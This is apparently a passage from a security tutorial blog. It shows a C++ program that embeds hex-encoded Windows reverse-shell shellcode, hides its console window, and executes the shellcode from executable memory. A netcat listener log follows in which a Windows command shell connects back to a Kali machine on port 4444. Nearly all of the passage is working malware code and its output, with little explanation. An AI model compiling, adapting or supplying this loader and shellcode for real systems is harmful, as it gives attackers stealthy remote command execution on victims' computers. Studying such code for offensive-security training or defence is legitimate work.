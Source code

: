 <pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 14px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">

#include &lt;windows.h>
#include &lt;iostream>
#include &lt;stdlib.h>

char code[] = 
"\x31\xc9\x64\x8b\x41\x30\x8b\x40\x0c\x8b\x70\x14\xad\x96\xad\x96\xad\x8b"
"\x58\x10\x8b\x53\x3c\x01\xda\x8b\x52\x78\x01\xda\x8b\x72\x20\x01\xde\x31"
"\xc9\x41\xad\x01\xd8\x81\x38\x47\x65\x74\x50\x75\xf4\x81\x78\x04\x72\x6f"
"\x63\x41\x75\xeb\x81\x78\x08\x64\x64\x72\x65\x75\xe2\x8b\x72\x24\x01\xde"
"\x66\x8b\x0c\x4e\x49\x8b\x72\x1c\x01\xde\x8b\x14\x8e\x01\xda\x31\xc9\x53"
"\x52\x51\x68\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68\x4c\x6f\x61\x64\x54"
"\x53\x89\xde\xff\xd2\x83\xc4\x0c\x5a\x50\x52\x66\xba\x6c\x6c\x52\x68\x33"
"\x32\x2e\x64\x68\x77\x73\x32\x5f\x54\xff\xd0\x83\xc4\x10\x8b\x54\x24\x04"
"\x68\x75\x70\x61\x61\x66\x81\x6c\x24\x02\x61\x61\x68\x74\x61\x72\x74\x68"
"\x57\x53\x41\x53\x54\x50\x89\xc7\xff\xd2\x31\xdb\x66\xbb\x90\x01\x29\xdc"
"\x54\x53\xff\xd0\x83\xc4\x10\x31\xdb\x80\xc3\x04\x6b\xdb\x64\x8b\x14\x1c"
"\x68\x74\x41\x61\x61\x66\x81\x6c\x24\x02\x61\x61\x68\x6f\x63\x6b\x65\x68"
"\x57\x53\x41\x53\x54\x89\xf8\x50\xff\xd2\x57\x31\xc9\x52\x52\x52\xb2\x06"
"\x52\x41\x51\x41\x51\xff\xd0\x91\x5f\x83\xc4\x10\x31\xdb\x80\xc3\x04\x6b"
"\xdb\x63\x8b\x14\x1c\x68\x65\x63\x74\x61\x66\x83\x6c\x24\x03\x61\x68\x63"
"\x6f\x6e\x6e\x54\x57\x87\xcd\xff\xd2\x68\xc0\xa8\xc9\x0b\x66\x68\x11\x5c"
"\x31\xdb\x80\xc3\x02\x66\x53\x89\xe2\x6a\x10\x52\x55\x87\xef\xff\xd0\x83"
"\xc4\x14\x31\xdb\x80\xc3\x04\x6b\xdb\x62\x8b\x14\x1c\x68\x73\x41\x61\x61"
"\x81\x6c\x24\x02\x61\x61\x00\x00\x68\x6f\x63\x65\x73\x68\x74\x65\x50\x72"
"\x68\x43\x72\x65\x61\x54\x89\xf5\x55\xff\xd2\x50\x8d\x28\x68\x63\x6d\x64"
"\x61\x66\x83\x6c\x24\x03\x61\x89\xe1\x31\xd2\x83\xec\x10\x89\xe3\x57\x57"
"\x57\x52\x52\x31\xc0\x40\xc1\xc0\x08\x50\x52\x52\x52\x52\x52\x52\x52\x52"
"\x52\x52\x31\xc0\x04\x2c\x50\x89\xe0\x53\x50\x52\x52\x52\x31\xc0\x40\x50"
"\x52\x52\x51\x52\xff\xd5";

int main(int argc, char** argv)
{
  HWND hWnd = GetConsoleWindow();
  ShowWindow(hWnd, SW_HIDE);
  void* exec = VirtualAlloc(0, strlen(code), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  memcpy(exec, code, sizeof(code));
  ((void(*)())exec)();

  return 0;
}
</pre>


<p align="justify">
After compiling and running the above program we will have command execution on our kali machine as seen at the screenshot below 
</p>


<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 14px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
kali@kali:~/Desktop$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.201.11] from (UNKNOWN) [192.168.201.12] 60839
Microsoft Windows [Version 10.0.19043.1165]
(c) Microsoft Corporation. All rights reserved.

C:\Users\Xenofon\source\repos\test\test>
</pre>
